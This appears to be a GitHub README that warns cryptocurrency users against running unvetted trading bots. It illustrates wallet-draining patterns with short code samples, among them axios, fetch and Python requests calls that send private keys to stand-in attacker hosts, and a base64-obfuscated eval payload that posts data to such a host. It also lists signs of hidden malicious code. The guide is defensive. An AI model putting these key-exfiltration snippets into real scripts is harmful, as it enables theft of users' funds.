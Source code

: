 ⚠️ WARNING ⚠️

Do not run bots from unknown sources If you are offered an Automatic Bot, Always Check the File Contents 
To avoid wallet designers or private keys being leaked 

Example of dangerous file contents


### 1. Sending Private Keys or Seed Phrases to External Servers

```js
axios.post('http://malicious-server.com/steal', { privateKey: PRIVATE_KEY });
```

* **Risk:** Private keys or seed phrases are sent in plain text to unknown servers.
* **Impact:** Attackers gain full access to your wallet and can drain funds instantly.

---

### 2. Storing Private Keys in Plain Files

```js
fs.writeFileSync('privatekey.txt', PRIVATE_KEY);
```

* **Risk:** Private keys stored in unsecured files can be accessed by malware or unauthorized users.
* **Impact:** Wallet security is compromised if the device is hacked or shared.

---

### 3. Using Untrusted RPC Providers or APIs

```js
const provider = new ethers.providers.JsonRpcProvider('https://malicious-node.com');
```

* **Risk:** Connecting to malicious or compromised nodes can lead to transaction manipulation.
* **Impact:** Funds can be redirected or stolen without your knowledge.

---

### 4. Collecting Private Keys via Input and Sending to Unknown URLs

```js
const PRIVATE_KEY = readlineSync.question('Enter your private key: ');
fetch('http://badsite.com/steal', { method: 'POST', body: PRIVATE_KEY });
```

* **Risk:** User inputs are exfiltrated to attacker-controlled endpoints.
* **Impact:** Even manual entry can lead to immediate compromise.

---

### 5. Using Unverified Third-Party Libraries or Modules

```js
import maliciousModule from 'some-unknown-lib';
maliciousModule.stealPrivateKey(PRIVATE_KEY);
```

* **Risk:** Hidden malicious code inside dependencies can leak sensitive data.
* **Impact:** Wallets compromised silently via dependencies.

---

### 6. Automatically Signing and Sending Transactions Without Validation

```js
wallet.signTransaction(tx).then(signedTx => {
  provider.sendTransaction(signedTx);
});
```

* **Risk:** Scripts that auto-sign transactions without checks can be abused to send all funds to attacker wallets.
* **Impact:** Wallet drained automatically.

---

### 7. Hidden Backdoors Triggering Unauthorized Transfers

```js
if (someCondition) {
  transferAllFundsTo('0xMaliciousAddress');
}
```

* **Risk:** Conditional logic that triggers fund transfers without user consent.
* **Impact:** Sudden loss of funds without clear cause.

---

## Best Practices to Protect Your Wallet

* **Never expose your private key or seed phrase in your code or to untrusted parties.**
* **Use environment variables or secure vault solutions to handle sensitive data.**
* **Audit open-source code and dependencies before use.**
* **Prefer hardware wallets for better security.**

## What Are Hidden Commands?

Hidden commands are pieces of code designed to run secretly inside the script or bot, performing malicious actions such as:

- Exporting or sending your private keys to attacker servers  
- Running unauthorized network requests (`POST`, `fetch`, `curl`) with sensitive data  
- Executing system commands that open backdoors  
- Obfuscated or encoded code blocks (Base64, Hex, etc.) that hide real behavior  

---

## How to Spot Hidden Commands: Key Indicators

1. **Network Calls Sending Sensitive Data**  
   Look for code sending data outside your device, especially keys or wallet info.

2. **Obfuscated Code**  
   Base64 strings or encrypted code segments that decode and execute commands.

3. **Suspicious Function Names**  
   Functions like `stealKey()`, `backdoor()`, `sendData()`, or anything vaguely suspicious.

4. **Use of Dangerous Functions**  
   `eval()`, `exec()`, `system()`, or anything that executes code dynamically.

5. **Hardcoded Private Keys or URLs**  
   Private keys or suspicious URLs inside the script.

---

## Example of a Hidden Stealing Command in Python

```python
import requests

def steal_private_key(private_key):
    # Sends the private key to attacker's server silently
    url = "https://evil-hacker-site.com/steal"
    try:
        requests.post(url, data={"key": private_key})
    except:
        pass  # Hide errors to avoid detection

# Somewhere in the code, your private key is captured and sent:
my_private_key = "0xYOUR_PRIVATE_KEY_HERE"
steal_private_key(my_private_key)
````

**What’s dangerous here?**
This function quietly sends your secret private key to a hacker’s server. If you run this script with your real key, your wallet is compromised.

---

## Example of Obfuscated Hidden Code in JavaScript

```js
// Base64 encoded malicious code (decoded and executed)
eval(atob('Y29uc3Qgc2VuZEtleSA9IGtleSA9PiB7CiAgY29uc3QgZGF0YSA9IHt9OwogIGNvbnN0IHVybCA9ICJodHRwczovL2V2aWwuaGFja2VyLXNpdGUuY29tL3N0ZWFsIjsKCiAgZmV0Y2godXJsLCB7CiAgICBtZXRob2Q6ICJQT1NUIiwKICAgIGhlYWRlcnM6IHsKICAgICAgIkNvbnRlbnQtVHlwZSI6ICJhcHBsaWNhdGlvbi9qc29uIgogICAgfSwKICAgIGJvZHk6IGpzb25TdHJpbmdpZnkoaykKICB9KTsKfTsK'));
```

Here, the code is encoded to hide what it really does, which likely includes stealing your key or running malicious commands.

---

## How to Protect Yourself from Hidden Commands

* **Always review and understand scripts before running.**
* **Use burner wallets on testnets** for testing automation scripts.
* **Never hardcode or share private keys in scripts or chats.**
* **Avoid running obfuscated or unreadable code.**
* **Check network calls in scripts** for suspicious external requests.
* **Run scripts in sandbox environments** if possible.
* **Keep dependencies and packages up-to-date and from trusted sources.**

---

## Final Thoughts

Hidden commands can be subtle but devastating. Your private key is your wallet’s ultimate password — **never let it slip** into unknown hands.

If you’re ever unsure about a script or bot, ask for help, audit with tools, or run tests with burner wallets only.

---

#Some Recents Behavous which i seen 
1.
![photo_2025-06-02_13-32-13](https://github.com/user-attachments/assets/3d275a69-9270-4e07-b58c-1be6055d72f5)

2.
![photo_2025-06-08_19-02-06](https://github.com/user-attachments/assets/bdec78f2-775a-4b19-8f22-fa917b3f5967)

  
